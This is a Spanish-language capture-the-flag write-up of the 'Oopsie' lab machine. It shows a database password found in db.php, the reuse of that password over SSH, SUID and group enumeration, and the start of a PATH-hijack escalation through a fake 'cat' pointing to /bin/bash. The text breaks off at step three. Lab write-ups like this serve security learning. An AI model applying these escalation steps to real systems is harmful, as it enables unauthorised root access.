 Exploramos la máquina desde el usuario **www-data** y vemos dentro de `/var/www/html/cdn-cgi/login` un fichero llamado db.php que parece interesante:

~~~php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
~~~

## Movimiento lateral para salir de www-data

Probaremos la credencial obtenida para poder conectarnos por **SSH** por el puerto 22 (abierto) con el usuario **robert**

![ssh](ssh.png)

En el directorio home de robert tenemos la flag de usuario

## Escalada de privilegios (-> Root)

Buscamos por permisos SUID:

~~~bash
find / -perm -4000 2>/dev/null
~~~

Pero ningún resultado resulta interesante.

Buscamos grupos a los que pertenezcamos con `id`

~~~bash
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
~~~

El usuario **robert** pertenece al grupo **bugtracker**. Veamos qué ficheros podemos ejecutar por ser miembros de este grupo:

~~~bash
find / -group bugtracker 2>/dev/null
~~~

Este fichero tiene propiedades SUID con lo que puede ejecutarse temporalmente como root

~~~bash
robert@oopsie:~$ ls -la /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
~~~

Ejecutamos y vemos qué hace ese ejecutable:

![bugtracker](bugtracker.png)

Parece que ejecuta un `cat` dentro del directorio `/root/reports` y espera un **ID**

Vamos a hacer que se ejecute un *cat* alternativo:

1. Vamos a crear un fichero llamado `cat` dentro de la carpeta `/tmp`

2. El contenido será `/bin/bash`

3. Asignaremos permisos de ejecución con `chmod +x cat`.
